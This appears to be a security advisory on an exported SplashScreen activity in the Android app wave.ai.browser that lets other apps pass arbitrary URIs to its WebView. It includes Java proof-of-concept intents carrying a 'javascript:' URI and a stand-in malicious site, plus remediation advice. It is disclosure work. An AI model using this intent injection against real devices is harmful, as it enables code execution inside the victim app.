 ## Vulnerability Report: Arbitrary Code Execution via Exported `SplashScreen` Activity in `wave.ai.browser`

### Overview:

The `wave.ai.browser` application version 1.0.38* contains a manifest entry that exports the `wave.ai.browser.ui.splash.SplashScreen` activity. This exported activity permits unauthorized applications to start it with arbitrary intent data & can lead to arbitrary code execution within the context of the `wave.ai.browser` application.

** This remains unpatched as of version 1.0.59

### Detailed Description:

An exported activity is one that can be invoked by other applications on the device. If not properly protected or if it implicitly trusts the data it receives, this can pose a security risk.

Given the manifest entry:
```xml
<activity android:theme="@style/Theme.App.Splash" 
          android:name="wave.ai.browser.ui.splash.SplashScreen" 
          android:exported="true" 
          android:launchMode="singleTop" 
          android:screenOrientation="portrait">
</activity>
```

The `wave.ai.browser.ui.splash.SplashScreen` activity is exported, meaning any third-party application can start this activity.

This activity uses a WebView component to display web content and doesn't adequately validate or sanitize the URI or extra data passed in the intent. 

Therefore a malicious app could craft an intent to load a website or execute arbitrary JavaScript within that WebView.

### POC:


![wave_ai_uri](https://github.com/actuator/wave.ai.browser/assets/78701239/cc22e955-a306-440c-8b92-00fdfc705717)




#### Malicious Intent Creation:
In a malicious app:
```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("wave.ai.browser", "wave.ai.browser.ui.splash.SplashScreen"));
intent.setData(Uri.parse("javascript:malicious_code_here"));
startActivity(intent);
```


If the `SplashScreen` activity in `wave.ai.browser` loads URIs in this manner without checking or sanitizing them, the malicious JavaScript code would execute within the context of the `wave.ai.browser` app or load an arbitrary website.

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("wave.ai.browser", "wave.ai.browser.ui.splash.SplashScreen"));
intent.setData(Uri.parse("http://maliciouswebsitetest.com/"));
startActivity(intent);
```

### CWE References:

CWE-94: Improper Control of Generation of Code ('Code Injection'): The vulnerability can potentially allow attackers to inject arbitrary code.

### Recommendations:

1. **Limit the Export of Activities**: Unless there's a compelling reason, avoid exporting activities. If you must export an activity, use intent filters and permissions to restrict who can start the activity.
2. **Validate and Sanitize Intent Data**: Always validate and sanitize data obtained from intents before use. Never trust data from external sources.
3. **Secure WebView Settings**: If using WebView, disable JavaScript unless necessary. Always sanitize and validate URLs and data passed to the WebView.

### Conclusion:

The manifest configuration of `wave.ai.browser` exposes it to potential arbitrary code execution risks.
